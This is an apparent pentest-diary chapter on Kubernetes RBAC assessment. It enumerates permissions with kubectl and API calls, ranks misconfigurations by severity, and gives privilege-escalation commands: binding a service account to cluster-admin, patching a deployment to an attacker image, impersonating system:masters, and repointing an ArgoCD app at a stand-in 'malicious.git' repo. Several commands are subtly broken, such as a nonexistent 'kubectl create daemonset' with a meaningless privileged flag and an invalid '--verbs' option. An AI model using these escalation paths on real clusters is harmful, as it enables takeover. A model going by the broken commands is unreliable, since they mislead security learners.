

# 📄 **11_rbac.md**

### *Phase 2 — RBAC Assessment & Privilege Mapping*

**Mi Familia Edition — Kubernetes / k3s Pentest Diary**

---

````markdown
# 11 — RBAC Assessment & Privilege Mapping  
### Phase 2: Determine What the Token Can Actually Do  
RBAC is the **single most important control** in Kubernetes.  
If RBAC is weak, everything else falls apart.

In real-world pentests, RBAC failures account for:
- Cross-namespace privilege escalation  
- Unauthorized secret access  
- Pod exec abuse  
- DaemonSet/node takeover  
- Access to CI/CD pipelines (ArgoCD, Flux)  
- Ability to deploy malicious containers  
- Full cluster compromise  

This module is highly detailed and structured to produce actionable attack paths.

---

# 🧠 1. What Makes RBAC Dangerous?

Kubernetes RBAC controls:
- What objects you can read  
- What objects you can modify  
- Where you can run containers  
- Whether you can access nodes  
- Whether you can impersonate other identities  

**Weak RBAC = cluster takeover.**

Dangerous verbs include:
- `get` → read secrets, pods, logs  
- `list` → enumerate attack surface  
- `watch` → stealth monitoring  
- `create` → deploy malicious workloads  
- `update` → modify existing workloads  
- `patch` → inject containers, sidecars  
- `delete` → disrupt workloads  
- `impersonate` → become someone else  
- `bind` → assign privileges to anyone (catastrophic)  

---

# 🔍 2. Self-Subject Access Review (SSAR): The RBAC Truth Serum

This call tells you exactly what your ServiceAccount is allowed to do.

### Full wildcard check:
```bash
kcurl -H "Content-Type: application/json" \
 -X POST "$APISERVER/apis/authorization.k8s.io/v1/selfsubjectaccessreviews" \
 -d '{
  "apiVersion": "authorization.k8s.io/v1",
  "kind": "SelfSubjectAccessReview",
  "spec": {
    "resourceAttributes": { "verb": "*", "resource": "*" }
  }
 }'
````

Interpretation:

* `"allowed": true` → You have broad access
* `"reason"` field explains **why**
* `"evaluationError"` may reveal RBAC configuration issues

---

# 🎭 3. Check Specific High-Value Permissions

These checks detect **impactful lateral movement paths**.

---

## 🔥 3.1 — Can I read secrets?

```bash
kubectl auth can-i get secrets -n $NAMESPACE
```

Curl equivalent:

```bash
kcurl -H "Content-Type: application/json" \
-XPOST "$APISERVER/apis/authorization.k8s.io/v1/selfsubjectaccessreviews" \
-d "{\"spec\":{\"resourceAttributes\":{\"resource\":\"secrets\",\"verb\":\"get\"}}}"
```

If allowed → **instant privilege escalation**.

---

## 🔥 3.2 — Can I exec into pods?

```bash
kubectl auth can-i create pods/exec -n $NAMESPACE
```

Exec permission allows:

* Shell in any workload
* Stealing tokens
* Reading files
* Pivoting into sensitive containers

---

## 🔥 3.3 — Can I schedule workloads?

These are cluster-critical checks:

```bash
kubectl auth can-i create pods
kubectl auth can-i create deployments
kubectl auth can-i create daemonsets
```

If you can create DaemonSets → **you can root every node in the cluster**.

---

## 🔥 3.4 — Can I escalate privileges?

### Modify RBAC:

```bash
kubectl auth can-i patch clusterrolebindings
kubectl auth can-i create clusterrolebindings
```

If true →
You can bind yourself to **cluster-admin**.

---

## 🔥 3.5 — Can I impersonate?

The most subtle but most devastating privilege:

```bash
kubectl auth can-i impersonate serviceaccounts
kubectl auth can-i impersonate users
kubectl auth can-i impersonate groups
```

If yes →
You can **become anyone** in the cluster, bypassing normal RBAC.

---

# 🧬 4. Enumerate Roles, ClusterRoles, Bindings

These objects define privilege distribution.

---

## 4.1 List all Roles & ClusterRoles:

```bash
kcurl "$APISERVER/apis/rbac.authorization.k8s.io/v1/roles"
kcurl "$APISERVER/apis/rbac.authorization.k8s.io/v1/clusterroles"
```

Extract readable names:

```bash
jq -r '.items[].metadata.name'
```

---

## 4.2 Extract Wildcard Privileges

This finds **dangerous roles**:

```bash
jq '.items[] | select(.rules[]?.resources[]? == "*" or .rules[]?.verbs[]? == "*")'
```

Examples of severe findings:

* `*` resource with `get`
* `*` resource with `create`
* `update` on `roles`
* `patch` on `clusterrolebindings`
* `impersonate` on any identity

---

## 4.3 List RoleBindings:

```bash
kcurl "$APISERVER/apis/rbac.authorization.k8s.io/v1/rolebindings"
```

Why they matter:

* Map subjects → roles
* Reveal lateral movement chains
* Reveal CI/CD or operator accounts with excess permissions

---

## 4.4 List ClusterRoleBindings (CRITICAL)

```bash
kcurl "$APISERVER/apis/rbac.authorization.k8s.io/v1/clusterrolebindings"
```

### Find cluster-admin bindings:

```bash
jq '.items[] | select(.roleRef.name == "cluster-admin")'
```

Whoever is bound → **full cluster compromise**.

---

# 💀 5. RBAC Misconfiguration Taxonomy

## (This is gold for pentesters)

### 🔥 Critical Severity

* ServiceAccounts with `secrets` read across namespaces
* Operators running with cluster-admin
* Wildcard verbs/resources
* DaemonSet creation allowed
* Ability to impersonate identities
* Editable ClusterRoleBindings
* Node read/write access (`api/v1/nodes`)
* Privileged or `hostPath` DaemonSets accessible

### ⚡ High Severity

* Pod exec across namespaces
* Ability to update/patch Deployments
* Write access to ConfigMaps used in startup configs
* Ability to create CronJobs (persistence)

### 🧊 Medium Severity

* List-only permissions (still reconnaissance)
* Pod log access (info leakage)
* Events access (operational intelligence)

---

# 🧠 6. Practical RBAC Abuse Paths

### 6.1 — Privilege Escalation via RoleBinding Injection

If you can *patch* or *create* RoleBindings:

```bash
kubectl create clusterrolebinding attacker \
  --clusterrole=cluster-admin \
  --serviceaccount=$NAMESPACE:default
```

→ Your pod becomes god.

---

### 6.2 — Escalation via Editing an Existing Deployment

If `patch deployments` is allowed:

* Patch in a privileged sidecar
* Patch image to malicious one
* Patch environment variables to leak cloud credentials

```bash
kubectl patch deployment myapp \
  -p '{"spec":{"template":{"spec":{"containers":[{"name":"foo","image":"attacker"}]}}}}'
```

---

### 6.3 — Escalation via DaemonSet Creation

If allowed:

```bash
kubectl create daemonset pwn --image=alpine --command -- privileged=true
```

→ Code execution on **every node**.

---

### 6.4 — Impersonation Escalation

If impersonation is allowed:

```bash
kcurl -H "Impersonate-User: system:admin" \
      -H "Impersonate-Group: system:masters" \
      "$APISERVER/api/v1/namespaces"
```

→ You're effectively cluster-admin.

---

### 6.5 — Operator-Based Escalation

CRDs + RBAC often allow control over:

* ArgoCD deployments
* cert-manager certificate issuers
* Istio policies
* Flux GitOps controllers

Example — ArgoCD takeover:

If RBAC allows modifying `applications` CRD:

```bash
kubectl patch application argocd-app \
 -p '{"spec":{"source":{"repoURL":"https://malicious.git"}}}'
```

→ Remote code execution across namespaces.

---

# 🧩 7. RBAC Visualization — Severity Ladder



This ladder reflects **real attacker progression** in enterprise clusters.

---

# 🎯 8. High-Value RBAC One-Liners

### Show ALL privileges of your current identity:

```bash
kubectl auth can-i --list
```

### Show all verbs allowed on a specific resource:

```bash
kubectl auth can-i --verbs='*' --resource=pods
```

### Show all resources where you have write access:

```bash
kubectl auth can-i create --all-namespaces
```

### Bulk-verb checker:

```bash
for verb in get list watch create update patch delete exec impersonate; do
  echo "$verb: $(kubectl auth can-i $verb pods)"
done
```

---

# 🧡 9. Summary

RBAC is the **central pillar** of Kubernetes security.
A single misconfigured RoleBinding or wildcard ClusterRole can elevate a low-privileged pod to:

* **Namespace admin**
* **Cluster admin**
* **Node root**
* **Cloud account compromise**

RBAC weaknesses almost always appear in:

* CI/CD accounts
* Operators
* Automation service-accounts
* Legacy namespaces
* Development clusters
* k3s lightweight environments

Understanding RBAC = understanding Kubernetes security.

Proceed to:
➡️ **12_secrets.md** (Secret Hunting & Exfiltration Techniques)

```
##
##
